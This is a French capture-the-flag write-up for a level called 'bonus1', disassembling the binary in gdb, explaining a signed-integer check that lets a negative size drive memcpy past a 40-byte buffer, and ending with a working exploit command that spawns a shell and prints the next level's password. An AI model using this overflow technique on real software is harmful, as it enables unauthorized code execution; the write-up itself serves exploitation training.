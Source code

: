 # Bonus1

On observe un exécutable à la racine : `bonus1`

```shell
$ ./bonus1
Segmentation fault (core dumped)

$ ./bonus1 "Hello World"

$ ./bonus1 "Hello" "World"
```

On cherche donc à comprendre ce que fait l'exécutable

```shell
$ gdb bonus1 -q
Reading symbols from /home/user/bonus1/bonus1...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disas main
Dump of assembler code for function main:
   0x08048424 <+0>:      push   ebp
   0x08048425 <+1>:      mov    ebp,esp
   0x08048427 <+3>:      and    esp,0xfffffff0
   0x0804842a <+6>:      sub    esp,0x40
   0x0804842d <+9>:      mov    eax,DWORD PTR [ebp+0xc]
   0x08048430 <+12>:     add    eax,0x4
   0x08048433 <+15>:     mov    eax,DWORD PTR [eax]
   0x08048435 <+17>:     mov    DWORD PTR [esp],eax
   0x08048438 <+20>:     call   0x8048360 <atoi@plt>
   0x0804843d <+25>:     mov    DWORD PTR [esp+0x3c],eax
   0x08048441 <+29>:     cmp    DWORD PTR [esp+0x3c],0x9
   0x08048446 <+34>:     jle    0x804844f <main+43>
   0x08048448 <+36>:     mov    eax,0x1
   0x0804844d <+41>:     jmp    0x80484a3 <main+127>
   0x0804844f <+43>:     mov    eax,DWORD PTR [esp+0x3c]
   0x08048453 <+47>:     lea    ecx,[eax*4+0x0]
   0x0804845a <+54>:     mov    eax,DWORD PTR [ebp+0xc]
   0x0804845d <+57>:     add    eax,0x8
   0x08048460 <+60>:     mov    eax,DWORD PTR [eax]
   0x08048462 <+62>:     mov    edx,eax
   0x08048464 <+64>:     lea    eax,[esp+0x14]
   0x08048468 <+68>:     mov    DWORD PTR [esp+0x8],ecx
   0x0804846c <+72>:     mov    DWORD PTR [esp+0x4],edx
   0x08048470 <+76>:     mov    DWORD PTR [esp],eax
   0x08048473 <+79>:     call   0x8048320 <memcpy@plt>
   0x08048478 <+84>:     cmp    DWORD PTR [esp+0x3c],0x574f4c46
   0x08048480 <+92>:     jne    0x804849e <main+122>
   0x08048482 <+94>:     mov    DWORD PTR [esp+0x8],0x0
   0x0804848a <+102>:    mov    DWORD PTR [esp+0x4],0x8048580
   0x08048492 <+110>:    mov    DWORD PTR [esp],0x8048583
   0x08048499 <+117>:    call   0x8048350 <execl@plt>
   0x0804849e <+122>:    mov    eax,0x0
   0x080484a3 <+127>:    leave
   0x080484a4 <+128>:    ret
End of assembler dump.
```

On va utiliser `Cutter` pour avoir un idee plus clair de `bonus1`

```shell
$ scp -P 4242 -r bonus1@192.168.56.102:/home/user/bonus1/bonus1 .

$ ./Cutter-v2.1.2-Linux-x86_64.AppImage bonus1
```

_résultat sauvegardé dans [source.md](source.md)_

Notre objectif est de valider dans la condition `param1 == 0x574f4c46`.

Afin d'y parvenir, nous devons auparavant valider la condition `param1 < 10`

Il y a trois lignes importante dans cette executable

```C
if (param1 < 10) {
		memcpy(DestMem, param2, param1 * 4);
		if (param1 == 0x574f4c46) {
			...
		}
}
```

`DestMem` fait `40` octets et est suivi par `param1` sur la stack.
Nous pouvons donc, grace au `memcpy`, ecrire par dessus `param1`

`param1` doit valider la condition suivante `param1 < 10` et `param1 * 4 = 44`
(pour ecrire completement dans `DestMem` de taille `40` et ecrire sur note `param1` de taille `4`)

`param1` est un int. Nous pouvons donc utiliser cette propriete pour loop dans les nombres negatifs pour atteindre notre 44 tout en etant inferieur a 10

```shell
$ bc
44 - 2147483648 * 2
-4294967252

-4294967252 / 4
-1073741813
```

nous avons `param1 = -1073741813`, `param2` doit faire `40 octets + 4 octets` egal a `0x574f4c46`

Si l'on rassemble toute nos trouvaille

```shell
bonus1:$ ./bonus1 "-1073741813" `python -c 'print("A"*40 + "\x46\x4c\x4f\x57")'`
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
